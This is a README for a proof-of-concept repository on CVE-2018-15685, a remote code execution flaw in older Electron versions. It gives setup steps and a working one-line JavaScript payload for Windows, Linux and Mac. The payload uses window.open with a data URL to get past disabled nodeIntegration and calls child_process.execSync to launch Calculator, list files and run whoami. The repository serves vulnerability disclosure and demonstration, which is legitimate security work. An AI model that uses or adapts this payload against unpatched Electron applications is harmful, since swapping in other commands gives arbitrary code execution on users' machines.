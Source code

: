 # CVE-2018-15685 - Electron WebPreferences Remote Code Execution

![enter image description here](https://cdn-images-1.medium.com/max/2000/1*aBsgPiEeOE5lLoippRm7BA.png)
This is a minimal Electron application with a POC for [CVE-2018-15685](https://nvd.nist.gov/vuln/detail/CVE-2018-15685).

> A remote code execution vulnerability has been discovered affecting apps with the ability to open nested child windows on Electron versions (3.0.0-beta.6, 2.0.7, 1.8.7, and 1.7.15). This vulnerability has been assigned the CVE identifier CVE-2018-15685.


The project contains the fillowing files:

- `main.js` - This is the app's **main process**. Note this has `nodeIntegration` disabled so it should not be possibe use "process"
- `index.html` - This is an example rendered page. This could be remotely controlled URL, or a page from an application with an XSS. In this example even though it is a local file but should not have access to node bindings.

## To Use

To clone and run this repository you'll need [Git](https://git-scm.com) and [Node.js](https://nodejs.org/en/download/) (which comes with [npm](http://npmjs.com)) installed on your computer. From your command line:

```bash
# Clone this repository
git clone https://github.com/rahulr311295/Electron_RCE.git
# Go into the repository
cd Electron_RCE
# Start a PHP Server
sudo php -S localhost:80
# Install dependencies
npm install
# Run the app
npm start
```
## To Run

### Windows
```
# Exploit Code
window.open().open('data:text/html,Code Execution <br><pre>Exploited: <pre><script>document.write(require("child_process").execSync("calc.exe"))</scr'+'ipt></pre></br></br><pre>Whoami: <pre><script>document.write(require("child_process").execSync("whoami"))</scr'+'ipt></pre></pre>');

# Which Executes Calculator and shows which user is currently logged in
```
![Windows](https://media.giphy.com/media/7OWdOErn5tFn2F1LKW/giphy.gif)
    
### Linux
```
# Exploit Code
window.open().open('data:text/html,Code Execution <br><pre>Exploited: <pre><script>document.write(require("child_process").execSync("ls"))</scr'+'ipt></pre></br></br><pre>Whoami: <pre><script>document.write(require("child_process").execSync("whoami"))</scr'+'ipt></pre></pre>');

# Which lists files and shows which user is currently logged in
```
![Linux](https://media.giphy.com/media/4ZcOpedgQBPMMWdHsN/giphy.gif)

### Mac
```
# Exploit Code
window.open().open('data:text/html,Code Execution <br><pre>Exploited: <pre><script>document.write(require("child_process").execSync("ls"))</scr'+'ipt></pre></br></br><pre>Whoami: <pre><script>document.write(require("child_process").execSync("open /Applications/Calculator.app"))</scr'+'ipt></pre></pre>');

# Which Executes Calculator and lists files in the directory
```
![Linux](https://media.giphy.com/media/XIhhk0xiXlkK1Roqux/giphy.gif)

**For More Information about this Vulnerability **
Full write up on the [Contrast Security blog](https://www.contrastsecurity.com/security-influencers/cve-2018-15685) or the write up on the offical blog from [Electron](https://electronjs.org/blog/web-preferences-fix)

**Credits to**
#### [Matt Austin](https://github.com/matt-) for the original POC